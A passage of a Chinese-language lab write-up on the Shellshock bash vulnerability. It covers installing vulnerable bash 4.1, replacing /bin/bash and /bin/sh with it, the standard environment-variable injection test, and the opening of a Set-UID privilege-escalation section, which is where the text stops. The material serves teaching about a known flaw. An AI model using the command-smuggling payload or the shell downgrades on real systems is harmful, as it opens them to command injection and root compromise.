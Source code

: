 # Attack

[TOC]

# 2. 进行实验所需的准备
## 1. 环境搭建
以root权限安装4.1版bash（4.2版本以上的漏洞已经被堵上了）
bash4.1 下载地址：http://labfile.oss.aliyuncs.com/bash-4.1.tar.gz

**download:**

```c
# wget http://labfile.oss.aliyuncs.com/bash-4.1.tar.gz
--2019-10-02 19:05:39--  http://labfile.oss.aliyuncs.com/bash-4.1.tar.gz

Resolving labfile.oss.aliyuncs.com (labfile.oss.aliyuncs.com)... 47.110.177.159
Connecting to labfile.oss.aliyuncs.com (labfile.oss.aliyuncs.com)|47.110.177.159|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6598300 (6.3M) [application/octet-stream]
Saving to: ‘bash-4.1.tar.gz’

bash-4.1.tar.gz    100%[==============>]   6.29M  1.07MB/s    in 11s     

2019-10-02 19:05:51 (583 KB/s) - ‘bash-4.1.tar.gz’ saved [6598300/6598300]
```

**Install**

```c
# tar xf bash-4.1.tar.gz   /解压
# cd bash-4.1              /打开
# ./configure              /打开configure文件
# make & make install      /安装

/这几句语句是运行时间最长的，网速不好的情况下在这一步重复输入了很多次。
```
等彩色kali变成黑白kali先，然后最好再重复一次
不要关窗口，要不会变回彩色的

**链接bash**

```c
# rm /bin/bash
# ln -s /usr/local/bin/bash /bin/bash
```


## begin

安装完了，接下来检测是否存在shellshock漏洞。

```c
kali# env x='() { :;}; echo vulnerable' bash -c "echo this is a test "

vulnerable
this is a test

/输出vulnerable,说明bash有漏洞。
```


## 2.预备知识
了解bash自定义函数，只需要函数名就能够调用该函数。

```
$ foo() { echo bar; }
$ foo
> bar
```

这个时候的Bash的环境变量：

`KEY = fooVALUE = () { echo bar; }`

来看看ShellShock漏洞的真身：

```
export foo=’() { :; }; echo Hello World’
bash
>Hello World
```

怎么样？看明白了没？为什么调用bash的时候输出Hello World了呢？ 瞧瞧他内部的情况：

`KEY = fooVALUE = () { :; }; echo Hello World`

bash读取了环境变量，在定义foo之后直接调用了后面的函数。
一旦调用bash，自定义的语句就直接触发。


## 1.攻击Set-UID程序

通过攻击Set-UID程序来获得 `root` 权限。

首先，确保安装了带有漏洞的bash版本，并让/bin/sh 指向/bin/bash.

```c
$ sudo ln -sf /bin/bash /bin/sh
```
现在一切就绪，进入下一步吧。
